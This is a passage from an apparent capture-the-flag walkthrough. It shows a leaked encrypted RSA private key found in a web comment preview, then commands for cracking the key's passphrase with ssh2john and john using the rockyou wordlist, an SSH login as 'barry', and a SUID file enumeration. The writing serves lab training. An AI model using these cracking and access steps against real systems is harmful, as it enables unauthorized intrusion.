 ```
h3>Comment Preview:</h3><p>Name: 
		-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
                        {REDACTED}
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
	</p><p>Author : </p><p>Comment :<br> <p/>    </section>
```

- Copy the `private_key` and use `chmod 600` on the file.

- Then, to connect, use `ssh -i <private_key_file> barry@ip`.

- The passphase can be obtained following the steps below

```bash
# convert the key to a format compatible with john
python3 /opt/john/run/ssh2john.py id_rsa > passphase

# use rockyou against the key to find out the passphase
/opt/john/run/john passphase -w=/usr/share/wordlists/rockyou.txt 

{redacted}       (id_rsa)   
```

- The first flag is located in `/home/barry/user.txt`.

- During the manual enumeration, I found an unusual file with the `SUID` bit set.

```bash
find / -type f -perm -04000 -ls 2>/dev/null\
```

